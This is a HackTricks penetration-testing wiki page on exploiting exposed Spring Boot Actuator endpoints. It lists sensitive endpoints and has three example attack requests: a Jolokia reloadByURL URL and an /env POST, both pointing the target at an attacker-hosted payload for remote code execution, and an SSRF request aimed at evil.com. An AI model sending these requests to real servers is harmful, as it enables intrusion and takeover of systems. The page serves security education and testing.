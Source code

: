 # Spring Actuators

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}

## **Spring Auth Bypass**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**From** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Exploiting Spring Boot Actuators

**Check the original post from** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Key Points:**

* Spring Boot Actuators register endpoints such as `/health`, `/trace`, `/beans`, `/env`, etc. In versions 1 to 1.4, these endpoints are accessible without authentication. From version 1.5 onwards, only `/health` and `/info` are non-sensitive by default, but developers often disable this security.
* Certain Actuator endpoints can expose sensitive data or allow harmful actions:
  * `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, and `/heapdump`.
* In Spring Boot 1.x, actuators are registered under the root URL, while in 2.x, they are under the `/actuator/` base path.

### **Exploitation Techniques:**

1. **Remote Code Execution via '/jolokia'**:
   * The `/jolokia` actuator endpoint exposes the Jolokia Library, which allows HTTP access to MBeans.
   * The `reloadByURL` action can be exploited to reload logging configurations from an external URL, which can lead to blind XXE or Remote Code Execution via crafted XML configurations.
   * Example exploit URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Config Modification via '/env'**:
   * If Spring Cloud Libraries are present, the `/env` endpoint allows modification of environmental properties.
   * Properties can be manipulated to exploit vulnerabilities, such as the XStream deserialization vulnerability in the Eureka serviceURL.
   *   Example exploit POST request:

       ```
       POST /env HTTP/1.1
       Host: 127.0.0.1:8090
       Content-Type: application/x-www-form-urlencoded
       Content-Length: 65

       eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
       ```
3. **Other Useful Settings**:
   * Properties like `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, and `spring.datasource.tomcat.max-active` can be manipulated for various exploits, such as SQL injection or altering database connection strings.

### **Additional Information:**

* A comprehensive list of default actuators can be found [here](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
* The `/env` endpoint in Spring Boot 2.x uses JSON format for property modification, but the general concept remains the same.

### **Related Topics:**

1. **Env + H2 RCE**:
   * Details on exploiting the combination of `/env` endpoint and H2 database can be found [here](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).
2. **SSRF on Spring Boot Through Incorrect Pathname Interpretation**:
   * The Spring framework's handling of matrix parameters (`;`) in HTTP pathnames can be exploited for Server-Side Request Forgery (SSRF).
   *   Example exploit request:

       ```http
       GET ;@evil.com/url HTTP/1.1
       Host: target.com
       Connection: close
       ```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
